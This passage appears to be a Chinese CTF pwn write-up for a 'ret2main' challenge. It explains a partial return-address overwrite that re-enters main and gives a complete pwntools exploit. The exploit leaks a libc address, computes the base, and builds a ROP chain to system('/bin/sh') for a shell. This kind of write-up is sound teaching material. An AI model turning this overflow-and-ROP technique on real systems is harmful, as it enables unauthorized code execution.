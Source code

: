 ![](/images/b964622822fb574787d0dc68c7f70d83.png)

综上，覆盖返回地址到`__libc_start_call_main`的起始地址是无法重新调用 main 函数的，

因为本来 RDI 在 `main` 函数返回时候的值就已经不是 `main` 函数的地址了，

所以不能再次将 RDI 的值存进`[rsp+98h+var_90]`里面，这样就覆盖了本来函数`__libc_start_call_main`栈上的 `main` 函数地址，

只需要跳过`__libc_start_call_main`函数前面`mov [rsp+98h+var_90], rdi`这一句就可以成功调用 `main` 函数了

```python
payload1=b'a'*0x108+b'\x1e'
link.send(payload1)
```

![](/images/69a7ae10640c59087198817b28e00d5c.png)

接下来就是写 ROP 链调用`system('/bin/sh')`了：

exp：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'

link=process("./ret2main")
libc=ELF("./libc.so.6")

# gdb.attach(link)
# pause()

payload1=b'a'*0x108+b'\x1e'
link.send(payload1)

addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(addr))

libc_base=addr-0x29D90
system=libc_base+libc.sym['system']
binsh=libc_base+next(libc.search(b'/bin/sh'))
rdi=libc_base+0x2a3e5
ret=libc_base+0x29139

payload2=b'a'*0x108+p64(rdi)+p64(binsh)+p64(system)
# payload2=b'a'*0x108+p64(rdi)+p64(binsh)+p64(ret)+p64(system)
link.send(payload2)

link.interactive()
```

